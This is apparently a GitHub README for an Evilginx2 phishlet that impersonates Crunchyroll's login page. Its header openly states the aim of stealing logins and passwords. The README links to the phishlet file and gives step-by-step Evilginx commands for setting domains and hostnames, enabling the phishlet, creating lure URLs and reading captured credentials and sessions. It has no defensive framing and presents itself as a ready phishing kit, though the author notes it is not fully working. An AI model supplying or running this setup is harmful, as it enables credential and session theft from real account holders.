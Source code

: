 ```yaml
---
title: "Evilginx2 phishlet for Crunchyroll"
excerpt: "Learn how to create a fake Crunchyroll page to steal logins and passwords using Evilginx2."
categories:
  - Evilginx2
tags:
  - Evilginx2
  - Phising
  - Crunchyroll
  - Crunchyroll phising
  - Steal login and password

toc: true
---
```


crunchyroll phishlet for evilginx2.

Download the phishlet here [crunchyroll.yaml](https://github.com/BieAnimaton/evilginx2-crunchyroll/blob/main/crunchyroll.yaml).

# evilginx2-crunchyroll

crunchyroll phishlet for evilginx2.  
capture the login or register credentials.  
it's not fully working.  

using localhost.

## steps
download or clone this file and extract inside phishlet folder.  
start evilginx.  

`config domain crunchyroll.com`  
`config ipv4 127.0.0.1`

`phishlets hostname crunchyroll login.crunchyroll.com`  
`phishlets enable crunchyroll`  
`phishlets get-hosts crunchyroll`

	127.0.0.1 www.login.crunchyroll.com
	127.0.0.1 sso.login.crunchyroll.com
	127.0.0.1 static.login.crunchyroll.com
	
	# add to C:/Windows/System32/Driver/etc/hosts or /etc/hosts

`lures`  
`lures create crunchyroll -> check generated ID`  
`lures get-url ID`  

	https://sso.login.crunchyroll.com/innRipMA

go to your browser
clear all history
access the generated link
after login or registration get credentials

`sessions`  

## captures

![1](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/b7108ade-658c-4a0e-a017-aebca968f8cc)

![2](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/df2177dd-38e2-4db0-8855-197e3a44f498)

![3](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/4e4027fa-e65b-4555-8734-e5e9db1abe27)

credentials will appear in the console

![4](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/ddb43bac-1e5a-43fd-8a89-9c7524515a34)

sessions information

![5](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/82d44097-9113-4a36-a920-4ff474b43ad2)